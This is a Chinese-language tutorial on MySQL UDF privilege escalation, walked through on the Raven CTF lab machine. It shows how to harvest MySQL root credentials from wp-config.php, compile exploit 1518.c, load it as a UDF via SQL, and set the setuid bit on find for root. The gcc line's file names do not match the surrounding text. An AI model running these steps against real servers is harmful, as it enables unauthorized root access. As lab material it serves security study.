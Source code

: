 ## MySQL UDF 提权

就是利用MySQL的自定义函数功能。

#### UDF简介

UDF（user-defined function）是MySQL的一个拓展接口，也可称为用户自定义函数，是用来拓展MySQL数据库功能的一种技术。用户通过自定义函数可以实现在MySQL中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，就像调用本机函数（例如ABS()或SOUNDEX()）一样方便。UDF官方介绍及其函数定义请参考如下页面。

- http://dev.mysql.com/doc/refman/5.5/en/adding-functions.html
- https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html

#### 利用条件：

1、需要有MySQL root账号的密码
2、MySQL需要以root权限运行。

### 实例 - Raven靶机

- 使用 searchsploit 从 exploit-db 中搜索相关的 exploit ：
![](pic/mysql-udf-1.png)

- 这里选择 1518.c 进行下载：
![](pic/mysql-udf-2.png)

- 查看 1518.c 可看到使用说明：
![](pic/mysql-udf-3.png)

- 进入 `/var/www/html/wordpress` 目录中搜索 `wp-config.php` 文件，因为该文件中记录着 MySQL 的用户名/密码，可看到：`root/R@v3nSecurity`
![](pic/mysql-udf-4.png)

- 然后，再将 1518.c 编译成共享库：
```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
- 编译后生成 1518.so，并将它下载到靶机中： /tmp/1518.so
接着，使用得到的 MySQL root密码，进入 MySQL shell：
![](pic/mysql-udf-5.png)

- 依次执行如下语句：
```
#创建一个表，名为 foo
create table foo(line blob); 

#将 1518.so 导入 foo 表
insert into foo values(load_file('/tmp/1518.so'));

#将1518.so转储到 /usr/lib/mysql/plugin 目录中
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so'; 

#最重要的一步，创建一个名为 do_system 的 UDF 函数，它将调用实现该函数的代码
create function do_system returns integer soname '1518.so'; 

#调用do_system() 函数，执行chmod 命令，对 /usr/bin/find 设置 sticky 位
select do_system('chmod u+s /usr/bin/find');
```

- 此时，回到 `/tmp` 目录，使用 `find` 命令，成功提权
![](pic/mysql-udf-6.png)


#### Reference

https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html